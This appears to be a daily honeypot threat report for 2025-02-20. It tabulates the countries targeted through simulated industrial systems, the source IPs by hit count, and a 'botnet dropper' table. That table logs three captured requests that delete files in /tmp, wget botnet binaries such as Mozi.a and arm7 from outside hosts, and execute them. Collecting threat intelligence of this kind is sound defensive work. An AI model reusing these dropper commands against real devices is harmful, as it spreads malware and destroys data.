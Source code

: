 ```yaml
---
title: "Report: 2025-02-20 "
date: 2025-02-20
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-20
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Singapore          |
| FR               | Australia          |
| US               | Dubai              |
| US               | Israel             |
| CA               | Israel             |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                    |
|:--------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 27.19.218.134 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 107.189.31.150/jawsselfrep;chmod+777+/tmp/jawsselfrep;sh+/tmp/jaws.selfrep HTTP/1.1                                                                      |
| 120.85.118.69 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                 |
| 91.224.92.10  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F45.125.66.139%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   324 | 193.41.206.176  |
|   1 |                   190 | 45.148.10.90    |
|   2 |                    93 | 195.178.110.163 |
|   3 |                    84 | 78.153.140.179  |
|   4 |                    53 | 193.68.89.10    |
|   5 |                    49 | 193.41.206.202  |
|   6 |                    45 | 219.132.37.52   |
|   7 |                    45 | 173.212.213.162 |
|   8 |                    44 | 91.224.92.10    |
